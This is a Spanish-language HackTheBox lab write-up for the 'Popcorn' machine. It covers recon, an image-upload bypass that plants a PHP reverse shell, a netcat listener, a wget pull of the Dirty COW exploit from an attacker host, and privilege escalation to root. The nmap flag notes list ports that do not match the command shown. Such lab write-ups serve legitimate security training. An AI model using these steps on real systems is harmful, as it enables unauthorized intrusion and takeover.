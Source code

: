 ```yaml
---
title: Popcorn
date: '2024-06-30'
lastmod: '2023-08-05'
tags: ['Labs', 'HackTheBox', 'Web', 'File Upload', 'Dirty Cow', 'Compile Exploit in C']
draft: true
summary: 'Popcorn, aunque no es demasiado complicado, contiene bastante contenido y puede resultar difícil para algunos usuarios localizar el vector de ataque adecuado al principio. Esta máquina se centra principalmente en diferentes métodos de explotación web. '
images: ['/static/images/htb/popcorn/popcorn.png']
---
```


![Portada](/static/images/htb/popcorn/Popcorn.png)

# [MIRA EL VIDEO TUTORIAL](https://youtu.be/xYD4cLwgwDw)

<TOCInline toc={props.toc} exclude="MIRA EL VIDEO TUTORIAL" />

## Reconocimiento

### Ping

Primero, verificamos que estamos en la misma red que la máquina víctima enviando un paquete de datos a la dirección IP 10.10.10.6 usando el comando `ping`.

```js
ping -c 4 10.10.10.6
```

- `-c` : Número de paquetes de solicitud de eco ICMP (Protocolo de Mensajes de Control de Internet) que se enviarán.

![Ping](/static/images/htb/popcorn/1.png)

### Nmap

A continuación, realizamos el escaneo de puertos.

```js
  nmap -p- --open 10.10.10.6 -Pn
```

- `-p-` : Escanea todos los puertos.
- `--open` : Reporta solo los puertos que se encuentran abiertos.
- `-Pn` : Realiza el escaneo incluso si el dispositivo no responde a los pings.

![Ping](/static/images/htb/popcorn/2.png)

Cuando obtenemos la lista de puertos abiertos en la máquina víctima, realizamos otro escaneo pero solo en aquellos reportados como abiertos por Nmap, incluyendo las siguientes opciones:

- `-sC` : Activa el escaneo utilizando scripts de servicio y enumeración predeterminados. Los scripts se ejecutan contra los puertos abiertos para recopilar información adicional sobre los servicios en ejecución.
- `-sV` : Realiza la detección de versiones de los servicios encontrados en los puertos abiertos. Nmap intenta determinar la versión y el tipo de servicio utilizando varios métodos, como enviar solicitudes específicas y comparar las respuestas recibidas.
- `-p` : Especifica los puertos a escanear. En este caso, se escanean los puertos 21 (FTP), 22 (SSH), 139 (NetBIOS/SMB), 445 (SMB) y 3632 (distccd).
- `-Pn` : Instruye a Nmap a realizar el escaneo incluso si el dispositivo no responde a los pings. Esto puede ser útil cuando el dispositivo tiene configuraciones de firewall que bloquean los paquetes de solicitud de eco ICMP.

```js
  nmap -sC -sV -p22,80 10.10.10.6 -Pn
```

![Ping](/static/images/htb/popcorn/3.png)

### Puertos abiertos

| Puertos abiertos | Servicio | Versión             |
| ---------------- | -------- | ------------------- |
| **_22/tcp_**     | ssh      | OpenSSH 5.1p1       |
| **_80/tcp_**     | http     | Apache httpd 2.2.12 |

## Enumeracion

### Puerto 80 - http

Realizamos fuzzing de directorios con ffuf.

- `-w`: La lista de palabras que usaremos para el fuzzing.
- `-u`: La URL contra la cual realizaremos el fuzzing.

![Ping](/static/images/htb/popcorn/4.png)

Y encontramos tres directorios: `test`, `torrent` y `rename`. El más útil en esta parte es `torrent`.

Mientras enumeraba la página, encontré un falso positivo de SQLi en el formulario, lo que me permitió volcar toda la base de datos, pero sin encontrar nada útil.

![Ping](/static/images/htb/popcorn/5.png)

![Ping](/static/images/htb/popcorn/6.png)

![Ping](/static/images/htb/popcorn/7.png)

Hay una zona de carga de archivos, pero necesito registrarme para poder verla.
![Ping](/static/images/htb/popcorn/8.png)

Necesitamos subir un archivo torrent para que luego podamos editar la imagen que nos permitirá acceder al servidor.

![Ping](/static/images/htb/popcorn/9.png)

![Ping](/static/images/htb/popcorn/10.png)

Tenemos la opción de editar la foto del torrent que subimos.
![Ping](/static/images/htb/popcorn/11.png)

![Ping](/static/images/htb/popcorn/12.png)

Elegimos cualquier foto e interceptamos la solicitud para editarla.
![Ping](/static/images/htb/popcorn/13.png)

En este caso, utilizo la shell de pentest monkey.
![Ping](/static/images/htb/popcorn/14.png)

Elimino los metadatos de la foto y pego la shell, cambiando la IP y el puerto.
La IP es la de la VPN, y el puerto es donde recibiremos la shell. En la shell, configuro el puerto 4444 para escuchar con:

```js
nc -lvnp 4444
```

![Ping](/static/images/htb/popcorn/15.png)

![Ping](/static/images/htb/popcorn/16.png)

Después de subir la shell, actualizamos la página y la abrimos en otra pestaña, luego vamos a `/torrent/upload` para activarla.
![Ping](/static/images/htb/popcorn/29.png)

![Ping](/static/images/htb/popcorn/30.png)

Hacemos clic en nuestro archivo .php y recibiremos la shell en el puerto que está escuchando.
![Ping](/static/images/htb/popcorn/17.png)

Con acceso al servidor, encontramos el `user.txt` ubicado en el directorio del usuario George.
![Ping](/static/images/htb/popcorn/18.png)

![Ping](/static/images/htb/popcorn/19.png)

## Root

### Escalada de privilegios

Comenzando con el reconocimiento, encontramos la versión del kernel, que es vulnerable a [Dirty Cow](https://en.wikipedia.org/wiki/Dirty_COW).

```js
uname - r
```

El comando `uname -r` se utiliza en sistemas operativos basados en Unix y Linux para mostrar la versión del [kernel](<https://en.wikipedia.org/wiki/Kernel_(operating_system)#:~:text=The%20kernel%20is%20a%20computer,mitigating%20conflicts%20between%20different%20processes.>) en uso.
![Ping](/static/images/htb/popcorn/22.png)

![Ping](/static/images/htb/popcorn/23.png)

![Ping](/static/images/htb/popcorn/24.png)

Descargamos el exploit a nuestra máquina y comenzamos un servidor con python, mientras que desde la máquina víctima lo descargamos con `wget`.

```js
wget http://IP_VPN:PORT/exploit.c
```

![Ping](/static/images/htb/popcorn/25.png)

![Ping](/static/images/htb/popcorn/26.png)

Para compilar un exploit en C:

- `gcc`: Es el compilador GNU para el lenguaje de programación C. Se utiliza para compilar código fuente en C y convertirlo en un archivo ejecutable.

- `-pthread`: Esta opción le dice al compilador que use la biblioteca de hilos POSIX (pthreads). Esto es útil si el programa utiliza hilos para realizar tareas concurrentes.

- `dirty.c`: Este es el archivo que se va a compilar.

- `-o dirty`: Esta opción le dice al compilador el nombre del archivo ejecutable de salida.

- `-lcrypt`: Esta opción le dice al compilador que enlace el programa con la biblioteca `libcrypt`, que proporciona funciones de cifrado y descifrado.

Entonces, el comando completo `gcc -pthread dirty.c -o dirty -lcrypt` compila el archivo `dirty.c` utilizando la biblioteca de hilos POSIX y la biblioteca de cifrado, produciendo un ejecutable llamado `dirty`. Después de eso, lo ejecutamos. Agregamos una contraseña al usuario `firefart` que se crea, y luego presionamos `CTRL + C` porque se cuelga.
![Ping](/static/images/htb/popcorn/27.png)

Cambiamos al usuario `firefart` y obtenemos privilegios de root.
![Ping](/static/images/htb/popcorn/28.png)
